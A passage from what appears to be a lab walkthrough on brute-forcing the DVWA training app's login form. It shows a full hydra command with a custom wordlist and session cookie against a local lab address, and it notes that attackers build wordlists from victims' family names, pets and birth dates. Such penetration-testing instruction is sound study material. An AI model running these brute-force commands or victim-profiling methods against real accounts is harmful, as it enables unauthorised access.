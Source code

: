 Let's put this into a file to use as a wordlist.

![words](https://imgur.com/zPM3eHu.png)

Now use the same hydra command as before but with our new wordlist:

<pre>hydra 192.168.56.118 -l admin -P "common.txt" http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=3f319f0402f5ec006e7b70da8ea92bf4"</pre>

![done](https://imgur.com/HVJjaT3.png)

Creating wordlists according to the person is also an intelligent approach. Attackers often enumerate information about their victim such as family names, pets, DOB, where they live etc. to create a more efficient dictionary. 
